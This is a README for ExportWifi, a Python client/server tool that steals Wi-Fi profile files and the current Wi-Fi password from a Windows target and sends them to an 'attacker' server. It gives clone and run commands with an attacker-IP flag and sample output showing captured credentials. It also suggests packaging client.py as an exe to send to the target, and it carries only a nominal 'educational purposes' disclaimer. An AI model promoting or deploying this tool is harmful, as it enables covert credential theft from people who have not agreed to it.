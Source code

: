ExportWifi
==========

Created by: Fawaz Bashiru

This a module which imports WI-FI files and detects the current WI-FI name and the current WI-FI password of the target. Every imported file is going to be saved in the directory where your server is located.

To install ExportWifi simply type:

`git clone https://github.com/Kill0geR/ExportWifi`

In your Terminal

HOW DOES ExportWifi WORK?
-------------------------
The ip address and the port number should be the same so the connection will work

HOW TO USE ExportWifi?
---------------------
Change the directory

`cd ExportWifi`

Start "wifi.py" with
 `python wifi.py -aip 127.0.0.1`
 
 -aip stands for ip of attacker
 -cf stands for create file
 -ds stands for demon server and means to have the server in your directory
 -p stands for ports and displays the port of the attacker
 
 If you need help simply type:
 `python wifi.py -help`

Output of Server
---------------
````commandline
Waiting for connection....
Connection with ('127.0.0.1', 53343)

Connection has been established
6 Wifi files have been saved to your directory
The current WI-FI and Password of the target is 

WI-FI: ********* The Wi-Fi of the target will be here 
Password: ******* The password of the target will be here
````


Additional
----------
* You can send "client.py" as an exe file to the target with "auto-py-to-exe"

* ExportWifi is very easy to use.

* The server can be used for any OS. The target can only have a Windows OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. I BUILD IT FOR EDUCATIONAL PURPOSES.
